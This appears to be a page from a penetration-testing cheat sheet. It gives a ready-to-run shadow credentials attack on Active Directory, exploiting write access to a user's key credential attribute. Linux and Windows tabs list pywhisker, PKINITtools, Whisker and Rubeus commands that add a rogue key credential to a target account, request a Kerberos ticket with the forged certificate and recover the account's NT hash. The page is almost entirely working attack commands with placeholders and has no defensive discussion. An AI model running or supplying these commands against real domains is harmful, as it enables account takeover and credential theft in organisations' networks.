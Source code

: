 ```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["AddKeyCredentialLink", "active driectory", "ad", "Windows", "shadow credentials", "whisker", "pywhisker"]
---
```


---
### Privesc #1: Shadow credentials

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Pre-check \[optional\]

<div>

```bash
python3 pywhisker.py --action list -d <DOMAIN> -u <CURRENT_USER> -p <PASSWORD> --dc-ip <DC> -t <TARGET_USER> --use-ldaps
```

</div>

#### 1. Add shadow credentials

<div>

```bash
python3 pywhisker.py --action add -d <DOMAIN> -u <CURRENT_USER> -p <PASSWORD> --dc-ip <DC> -t <TARGET_USER> --use-ldaps
```

</div>

<br>

<div>

```bash
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

</div>

#### 2. Request TGT using PFX file

<div>

```bash
sudo ntpdate -s <DC> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass <PFX_PASSWORD> <DOMAIN>/<USERNAME> <USERNAME>.ccache -dc-ip <DC>
```

</div>

#### 3. Import ticket

<div>

```bash
export KRB5CCNAME=<USERNAME>.ccache
```

</div>

#### 4. Get NT hash

<div>

```bash
python3 getnthash.py <DOMAIN>/<USERNAME> -key <AS-REP_encryption_key>
```

</div>

<small>*Ref: [pywhisker](https://github.com/ShutdownRepo/pywhisker)*</small>
<br>
<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 0. Pre-check \[optional\]

<div>

```powershell
.\Whisker.exe list /domain:<DOMAIN> /target:<TARGET_USER> /dc:<DC>
```

<div>

#### 1. Add shadow credentials

<div>

```powershell
.\Whisker.exe add /domain:<DOMAIN> /target:<TARGET_USER> /dc:<DC> /password:<PASSWORD>
```

</div>

#### 2. Request TGT using PFX file and get NT hash

<div>

```powershell
.\rubeus.exe asktgt /user:<TARGET_USER> /certificate:<BASE64_CERT> /password:<PASSWORD> /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

</div>

<small>*Ref: [Whisker.exe](https://github.com/eladshamir/Whisker)*</small>

{{< /tabcontent >}}

<br>
